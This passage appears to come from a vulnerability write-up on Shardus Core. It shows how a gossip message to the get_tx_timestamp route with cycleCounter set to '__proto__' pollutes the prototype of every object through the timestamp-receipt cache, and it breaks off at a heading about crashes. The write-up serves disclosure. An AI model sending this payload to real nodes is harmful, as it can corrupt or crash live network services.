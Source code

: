 The function `generateTimestampReceipt(...)` is the one that stores the received value in the cache.
```
generateTimestampReceipt(
  txId: string,
  cycleMarker: string,
  cycleCounter: CycleRecord['counter']
): TimestampReceipt {
  const tsReceipt: TimestampReceipt = {
    txId,
    cycleMarker,
    cycleCounter,
    // shardusGetTime() was replaced with shardusGetTime() so we can have a more reliable timestamp consensus
    timestamp: shardusGetTime(),
  }
  const signedTsReceipt = this.crypto.sign(tsReceipt)
  /* prettier-ignore */ this.mainLogger.debug(`Timestamp receipt generated for txId ${txId}: ${utils.stringifyReduce(signedTsReceipt)}`)

  // caching ts receipt for later nodes
  if (!this.txTimestampCache[signedTsReceipt.cycleCounter]) {
    this.txTimestampCache[signedTsReceipt.cycleCounter] = {}
  }
  // eslint-disable-next-line security/detect-object-injection
  this.txTimestampCache[signedTsReceipt.cycleCounter][txId] = signedTsReceipt
  return signedTsReceipt
}
```
> Snippet of code from: https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/TransactionConsensus.ts#L1029-L1051

There, we can see the vulnerable assignment once again:

**this.txTimestampCache[signedTsReceipt.cycleCounter][txId] = signedTsReceipt**

## Adding fields to all Objects in the server

If the gossipped message to the `get_tx_timestamp` route contains the following payload:
```
{ txId: "bsdsdsdsd", cycleCounter: "__proto__", cycleMarker: "bsdsdsdsd" }
```
> Where "bsdsdsdsd" is random gibberish.

Then, the vulnerable assignment becomes:
```
this.txTimestampCache[ '__proto__' ][ 'bsdsdsdsd' ] = signedTsReceipt
```

As a consequence, all objects in existence and new objects created in the future will contain a field `. bsdsdsdsd` and the value will be the content of the `signedTsReceipt` object.

## A chain of crashes in Shardus Core
